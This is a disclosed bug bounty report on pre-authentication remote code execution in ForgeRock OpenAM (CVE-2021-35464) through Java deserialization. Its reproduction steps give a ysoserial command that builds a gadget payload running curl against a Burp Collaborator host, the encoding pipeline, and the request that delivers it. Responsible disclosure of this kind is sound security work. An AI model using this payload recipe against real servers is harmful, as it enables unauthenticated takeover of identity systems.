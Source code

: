 #  Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)

## Report Details
- **Report ID**: 1248040
- **URL**: https://hackerone.com/reports/1248040
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-06-30T08:58:44.335Z
- **Disclosed**: 2021-07-29T19:50:15.699Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM.





### Supporting Material/References
- https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464

## Impact

An unauthenticated, 3rd-party attacker or adversary can execute remote code

## System Host(s)
████

## Affected Product(s) and Version(s)
ForgeRock OpenAM

## CVE Numbers
CVE-2021-35464

## Steps to Reproduce
First we need to build the payload:
1. Download this jar file 
``wget https://github.com/Bin4xin/sweet-ysoserial/blob/master/target/ysoserial-0.0.6-SNAPSHOT-all.jar``

then 
``java -jar ysoserial-master-SNAPSHOT.jar Click1 "curl https://g0h7qcjzwzpzdh2ar6b5f9x3puvkj9.burpcollaborator.net" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '=' | tr -d '\n' > payload.txt`` 

You need to change the burp Collaborator id to test it properly. 

The payload is now saved in the payload.txt file. 

Now we need to use the following request:

```
GET /██████████=XYZ HTTP/1.1
Host: 127.0.0.1
```
Replace **XYZ** by the payload saved into the payload.txt file. 

The response

```
HTTP/1.1 302 Found
Cache-Control: private
Location: https://127.0.0.1:443/openam/base/AMInvalidURL
Content-Length: 0
```
The HTTP Request sent the collaborator :

███

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
